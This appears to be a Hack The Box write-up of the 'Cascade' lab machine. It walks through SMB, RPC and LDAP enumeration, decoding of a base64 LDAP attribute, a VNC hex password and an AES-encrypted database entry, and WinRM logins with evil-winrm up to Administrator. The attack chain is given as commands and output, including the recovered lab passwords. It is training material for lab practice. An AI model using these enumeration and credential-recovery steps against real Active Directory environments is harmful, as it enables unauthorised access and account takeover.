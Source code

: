 ```yaml
---
layout: post
title: HTB Machine - Cascade
subtitle: 
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Active Directory, Hack the Box]
---
```


##### Enumerate smb and rpc. We found some users that we place in a file and then check if we can get a TGT. No luck. We check if there is any other info in the info of the users.

```bash
crackmapexec smb 10.10.10.182 -u ''
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)

rpcclient -U '' 10.10.10.182 -N -c 'enumdomusers' |  grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]' > users.txt

/home/rickybana/.local/bin/GetNPUsers.py -no-pass -usersfile users.txt cascade.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User arksvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User r.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User util doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.wakefield doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.hickson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.goodhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.turnbull doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User d.burman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User BackupSvc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j.allen doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)

rpcclient -U '' 10.10.10.182 -N -c 'querydispinfo'
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.turnbull	Name: Adrian Turnbull	Desc: (null)
index: 0xebc RID: 0x452 acb: 0x00000210 Account: arksvc	Name: ArkSvc	Desc: (null)
index: 0xee4 RID: 0x468 acb: 0x00000211 Account: b.hanson	Name: Ben Hanson	Desc: (null)
index: 0xee7 RID: 0x46a acb: 0x00000210 Account: BackupSvc	Name: BackupSvc	Desc: (null)
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: CascGuest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xee5 RID: 0x469 acb: 0x00000210 Account: d.burman	Name: David Burman	Desc: (null)
index: 0xee3 RID: 0x467 acb: 0x00000211 Account: e.crowe	Name: Edward Crowe	Desc: (null)
index: 0xeec RID: 0x46f acb: 0x00000211 Account: i.croft	Name: Ian Croft	Desc: (null)
index: 0xeeb RID: 0x46e acb: 0x00000210 Account: j.allen	Name: Joseph Allen	Desc: (null)
index: 0xede RID: 0x462 acb: 0x00000210 Account: j.goodhand	Name: John Goodhand	Desc: (null)
index: 0xed7 RID: 0x45c acb: 0x00000210 Account: j.wakefield	Name: James Wakefield	Desc: (null)
index: 0xeca RID: 0x455 acb: 0x00000210 Account: r.thompson	Name: Ryan Thompson	Desc: (null)
index: 0xedd RID: 0x461 acb: 0x00000210 Account: s.hickson	Name: Stephanie Hickson	Desc: (null)
index: 0xebd RID: 0x453 acb: 0x00000210 Account: s.smith	Name: Steve Smith	Desc: (null)
index: 0xed2 RID: 0x457 acb: 0x00000210 Account: util	Name: Util	Desc: (null)
```

##### we can try to bruteforce the pass expecting for a user to use his username as pass but that would not work. Next we can try to enumerate the ldap.
```bash
ldapsearch -x -H ldap://10.10.10.182 -b 'DC=cascade,DC=local' | cat -l ruby
```
##### the colors of the batcat make it easier to read. We are looking for the userPrincipalName to check our users. in the batcat use /userPrincipalName to search for the parameter and press N in your keyboard to jump to the next hit. Underneath the user r.thomson we see an interesting parameter. 
```bash
cascadeLegacyPwd: clk0bjVldmE=
```
##### seems like is base64 so we need to decode: 
```bash
echo 'clk0bjVldmE=' | base64 -d; echo
rY4n5eva
```
##### verify the pass with crackmapexec.
```bash
crackmapexec winrm 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva 

crackmapexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```
##### We can try to do a dump of the ldap to check it. So we do the dump on our content folder and from there start a webserver. Then go to the browser and the localhost address, check all the data in the html files. 
```bash
ldapdomaindump 10.10.10.182 -u 'cascade.local\r.thompson' -p 'rY4n5eva'

python3 -m http.server 80
```
##### we are going to enumerate the smb now.
```bash
smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -r

smbmap -H 10.10.10.182 -u "r.thompson" -p 'rY4n5eva' -A '(xlsx|docx|txt|xml|reg|log|html)' -R
```

##### We found a file .reg if we cat it we could see a password fiel that is coded in hex. When decoding it we se that the password has a weird pattern, but we could try to decode it, if we ask saint google for 'VNC view decrypted password github' a few tools appear. The solution we found uses for tools already in the system. 

```bash
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f

echo "6bcf2a4b6e5aca0f" | xxd -ps -r | xxd
00000000: 6bcf 2a4b 6e5a ca0f                      k.*KnZ..

echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

##### we dont know for which user is the credential valid but we are going to use it against our list of users to find out. After finding it we can winrm to the machine and extract the first flag.  

```bash
crackmapexec winrm 10.10.10.182 -u users.txt -p 'sT333ve2' --continue-on-success
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 's.smith' -p 'sT333ve2'
```

##### From there we need to enumerate our priv and the user memberships. If we enum the audit share local group we see a comment that seems to mention a share. We will jump and enumerate then smb with the user credentials. The folder Audit$ seems to have interesting stuff, we are going to dl to our attack machine to check it. For that we will connect with smbclient, turn the prompt off so it does not ask for 'are you sure?' all the time, we activate the recurse so it goes inside each folder and then run a mget * to dl it. 

```bash
whoami /all
net user s.smith
net localgroup 'Audit Share'

smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2' -r Audit$

smbclient //10.10.10.182/Audit$ -U "s.smith%sT333ve2"
prompt off
recurse ON
mget *

```
##### we examine the files there is one that contains a database. Mount it to examine it. If we enum all tables we will find something intersting in one of the tables. Seems like a base64 but when decoding it the pattern does not seem correct. 

```bash
cd DB

file Audit.db
Audit.db: SQLite 3.x database, last written using SQLite version 3027002, file counter 60, database pages 6, 1st free page 6, free pages 1, cookie 0x4b, schema 4, UTF-8, version-valid-for 60

.tables

select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

##### go back to the dl files and lets keep examining it. There is an exe file and when displaying the strings we can see some sort of pass. testing it with crackmapexec against our list of users is unfruitful. So we might need to dig deeper into the .exe file.

```bash
strings CascAudit.exe -e l

c4scadek3y654321
```

##### in a windows machine install dotpeek tool and open the .exe file in it, we verify in the code that the key is that one. The code mentions an import module called crypto that is used to decrypt along with the key. The crypto module is a .dll that we have and we can also import in dotPeek. Once we have it there we can examine it and see and IV key. Also the code mentions the encryption type. 

AES mode CBC

##### with that info we can go to cyberchef and feed it with the input and 2 modules: From base 64 and AES decrypt

```
From base 64: standard

AES decrypt
Key: c4scadek3y654321
UTF8
IV: 1tdyjCbY1Ix49842
UTF8
Mode: CBC
Input: Raw
Output: Raw

output: w3lc0meFr31nd
```

##### we can verify the credentials and login as the user. 

```Bash
crackmapexec winrm 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)

evil-winrm -i 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'
```

##### we know that the user is able to see deleted object from the AD and in one of the files we enumerated earlier it was mentioned that there was a TempAdmin with the same credentials as the Admin. If we google 'powershell get object deleted object filter' we get to a post with a command to show already deleted users. We will add to list all the properties. In on of the properties there is a pass coded in base64, decode it to get the password, validate it and collect the root flag.

```bash
get-adobject -Filter {Deleted -eq $true -and ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *

echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d; echo
baCT3r1aN00dles

evil-winrm -i 10.10.10.182 -u 'Administrator' -p 'baCT3r1aN00dles'
```